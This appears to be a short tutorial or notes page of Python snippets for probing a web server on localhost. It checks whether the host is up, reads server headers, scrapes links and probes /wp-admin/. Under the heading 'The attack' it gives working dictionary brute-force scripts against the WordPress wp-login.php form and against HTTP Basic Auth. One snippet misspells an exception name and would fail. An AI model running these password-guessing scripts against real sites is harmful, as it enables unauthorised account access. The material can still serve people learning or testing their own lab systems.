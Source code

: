 #beautifulsoup #bs4 #requests #html

### Check if host is up

```python
from http.client import *

host = "127.0.0.1"
port = 80

try:
    connection = HTTPConnection(host,port)
    connection.request('GET','/')
    response = connection.getresponse()
    print("Host is up")
    
except ConenctionRefusedError:
    print("Host is down")
```

or simply 
```python
import requests

resp = requests.get('http://localhost')

print(resp)

```


### Info Gathering
```python
import requests
r = requests.get("http://localhost")
print(r.headers['server'])
```

```python
print(r.content)
```

### BS4 webscraping

Make the soup yum

```python
from bs4 import *
soup = BeautifulSoup(r.content,'html')
print(soup)

```

find stuff (ie all links available, all images, title)
```python
print(soup.title)

for i in soup.find_all("img"):
    print (i.get('src'))


urls = []
for i in soup.find_all("a"):
    if (i.get('href') not in urls):
        urls.append(i.get('href'))
    else:
        continue
for i in soup.find_all("link"):
    if (i.get('href') not in urls):
        urls.append(i.get('href'))
    else:
        continue
print(urls)   


```

### Test connections to found urls

```python
try:
    connection = HTTPConnection(host,port)
    connection.request('GET','/wp-admin/')
    response = connection.getresponse()
    print("yes")
    
except ConenctionRefusedError:
    print("no")

```
cool.

# The attack
## Brute force login

```python
import requests

pdicts = "password_dictionary.txt"
opendict = open(pdicts).readlines()

for i in opendict:
    print("Testing: ", i )
    r= requests.post('http://localhost/wp-login.php', data={"log": "admin", "pwd": i })
    if ("ERROR" not in r.text):
        print(i)
        break

```


## Test entry into user page
```python
import requests
from bs4 import BeautifulSoup

r = requests.get("http://localhost/token/index.html")
soup = BeautifulSoup(r.text,"html.parser")

print(soup)
print(r.headers)
```



## Break into page using auth + password breaker

```python
import requests
from bs4 import BeautifulSoup

dicts = "password_dictionary.txt"
username = 'anon'
url = "http://localhost/token/index.html"

lines = [items.rstrip('\n') for items in open(dicts)]


for password in lines:
    print("trying:", password)
    auth = requests.auth.HTTPBasicAuth(username, password )
    r = requests.get(url=url, auth = auth , verify = False , timeout = 5)
        
    
    if "Authorization Required" not in str(r.text):
        print("password is" , password)
        
        soup = BeautifulSoup(r.text,"html.parser")
        print(soup.prettify())
        
        break
        
```